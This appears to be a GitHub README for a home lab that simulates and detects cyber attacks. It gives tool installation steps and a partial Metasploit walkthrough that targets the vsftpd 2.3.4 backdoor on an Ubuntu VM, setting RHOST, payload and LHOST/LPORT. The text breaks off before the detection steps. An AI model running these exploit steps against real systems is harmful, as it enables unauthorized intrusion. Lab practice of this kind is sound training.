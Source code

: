 # Simulating-and-Detecting-A-Cyber-Attack

## Introduction

### Overview

In this digital world, it is critical to detect and analyse cyber threats so that appropriate responsive actions can be taken to mitigate them. This project simulates real-world cyber attacks in a virtual environment. The penetration testing tools used in this project are Metasploit and Burp Suite, while Nessus is used for vulnerability scanning, Wireshark is used for traffic analysis, and Splunk is used for log monitoring. A Kali Linux VM will be used as the attacker's environment while the Ubuntu VM will be used as the target system. With this in mind, various attacks will be conducted to observe and analyse their impact and the steps taken to detect, analyse, and mitigate these attacks will be showcased. 

### Objectives

- Simulate cyber attacks using Metasploit and Burp Suite
- Capture and analyse network traffic using Wireshark
- Utilise Nessus to scan for vulnerabilities in the target system
- Monitor and analyse logs using Splunk
- Implement threat detection and response

## Tools Used 

- Metasploit
- Burp Suite
- Nessus
- Wireshark
- Splunk
- Kali Linux VM (attack machine)
- Ubuntu VM (target machine)

## Project Setup 

### Prerequisites 
- Kali Linux VM - for running Metasploit, Burp Suite, and Nessus
- Ubuntu VM - target system for attacks
- Network - NAT or Bridged Adapter

Use platforms like VMWare or VirtualBox to install and run the virtual machines.

### Installation

#### Kali Linux VM:
1. Install Metasploit:
   - Open Terminal and type the following commands:
     ```
     sudo apt-get update && apt-get upgrade 
     sudo apt install metasploit-framework
     ```
2. Install Burp Suite:
   - Run the following command in Terminal:
     ```
     sudo apt install burpsuite
     ```
3. Install Nessus:
   - Go to the following link: <a href="https://www.tenable.com/products/nessus/nessus-essentials?source=post_page-----3a590489c18e--------------------------------">Tenable Nessus® Essentials</a>
   - Fill in your full name and email under "Register for Activation Code".
   - You will receive an email with the activation code and be redirected to the download page:
     ![image](https://github.com/user-attachments/assets/edbc1d2a-50b9-4ac4-825f-2dedfc7daf32)
   - Select the latest version for Nessus and "Linux-Debian-amd64" for the platform as shown above.
   - You can then download Nessus using the curl command in Terminal:
     ```
     curl --request GET \
       --url 'https://www.tenable.com/downloads/api/v2/pages/nessus/files/Nessus-10.8.3-debian10_amd64.deb' \
       --output 'Nessus-10.8.3-debian10_amd64.deb'
     ```
   - Run the following installation command:

     `sudo dpkg -i Nessus-10.8.3-debian10_amd64.deb`
   - Start Nessus using the following command:

     `sudo systemctl start nessusd`
   - To check if it is running, run the following command:

     `sudo systemctl status nessusd`
   - Open Nessus in the browser using the following link:

     `https://localhost:8834`
   - This will give you a warning. Accept the risk and continue.
   - You will then be directed to the Nessus page:
     ![image](https://github.com/user-attachments/assets/d2491998-c179-4307-80a7-fad4224922cb)
   - Click continue.
   - Select "Register for Nessus Essentials".
   - You can skip the following step and fill in the activation code you received earlier via email.
   - Create a username and password and then click "Submit". This will fully set up Nessus Essentials on the browser:
     ![image](https://github.com/user-attachments/assets/afc6434d-fe0a-4a2c-9dbc-cf36bd51e128)

#### Ubuntu VM:
Install Splunk:
- Go to the following link: <a href="https://www.splunk.com/en_us/download/splunk-enterprise.html">Download Splunk Enterprise</a>
- Create your account.
- Verify your email to activate your Splunk account.
- The verification link will take you to the download page where you must choose a platform to download Splunk.
- Choose Linux as the platform since it is being downloaded on the Ubuntu VM and you can choose the .deb installation package.
- Open Terminal in the Ubuntu VM and paste and run the wget command to download the selected installation package:
  ![image](https://github.com/user-attachments/assets/7e333cc9-6bc7-41f0-8b32-0f57be9e25b3)
- Install Splunk using the command:

  `sudo dpkg -i splunk-9.4.0-6b4ebe426ca6-linux-amd64.deb`
- To check the status of the installation, run the following command:

  `sudo dpkg --status splunk`
- Next, start Splunk using the following command:

  `sudo /opt/splunk/bin/splunk start`
- Accept the license and create an administrator username and password:
  ![image](https://github.com/user-attachments/assets/0db65ea8-7186-4372-a5e1-09f89b6c681f)
- Once you have successfully created a username and password, you will be provided with the Splunk web interface:
  ![image](https://github.com/user-attachments/assets/d26d2b33-d5c5-4d25-8c0c-a74ec02d3c3a)
- Open the link on the web browser in the Ubuntu VM. This will take you to the login page where you will be asked to use the credentials that you created earlier:
  ![image](https://github.com/user-attachments/assets/1df131f9-9885-4e75-8002-ef3b25ca8b4a)


## Simulating an Attack

### Metasploit
- Open Terminal in the Kali VM.
- Type in "msfconsole" to start Metasploit:
  ![image](https://github.com/user-attachments/assets/2054305d-2586-4d41-9d23-52e1c07f23b0)
- Once Metaslpoit is started, type in "help" to see the description of each command that you can use in Metasploit:
  ![image](https://github.com/user-attachments/assets/8d6d3123-027a-4d96-891b-0631140c7d10)
- Since the Ubuntu VM is the target, search for Linux-specific exploits using the command:

  `search vsftpd`
  ![image](https://github.com/user-attachments/assets/a05e396d-0dba-4e12-8491-431ab8132f7e)

- Once you have found the exploit that you are looking for, run the following "use" command:

  `use exploit/unix/ftp/vsftpd_234_backdoor`
- Go to the Terminal in the Ubuntu VM and identify its IP address using the "ifconfig" command. The IP address is under "inet".
- Return to the Terminal in the Kali VM, in the same tab where Metasploit is running.
- Set the target using the Ubuntu VM IP address with the "set" command:

  `set RHOST <UBUNTU-VM-IP>`
- Check compatible payloads using the "show" command:

  `show payloads`
  ![image](https://github.com/user-attachments/assets/ef5ac111-fca3-4688-b1f4-1712096c3e1d)
- Set the payload shown:

  `set payload payload/cmd/unix/interact`
- Set the attacker's IP address and listening port using the Kali VM IP:
  ```
  set LHOST <KALI-VM-IP>
  SET LPORT 4444
  ```










## References
- <a href="https://docs.tenable.com/nessus/Content/InstallNessusLinux.htm">Install Tenable Nessus on Linux</a>
- <a href="https://docs.splunk.com/Documentation/Splunk/9.4.0/Installation/InstallonLinux">Install Splunk on Linux</a>
- <a href="https://medium.com/@dannyopara/installing-splunk-enterprise-on-ubuntu-step-by-step-guide-b545982038c3">Installing Splunk Enterprise on Ubuntu: Step-by-Step Guide</a>
- <a href="https://www.hackthebox.com/blog/metasploit-tutorial">A step-by-step guide to the Metasploit Framework</a>
- <a href="https://www.varonis.com/blog/what-is-metasploit">What is Metasploit? The Beginner's Guide</a>
- <a href="https://www.eccouncil.org/cybersecurity-exchange/penetration-testing/metasploit-framework-for-penetration-testing/">How To Use The Metasploit Framework For Penetration Testing</a>
- <a href="https://youtu.be/QynUOJanNqo?si=Oyjl9fNDvtPMmJ_3">Metasploit Tutorial for Beginners</a>


     






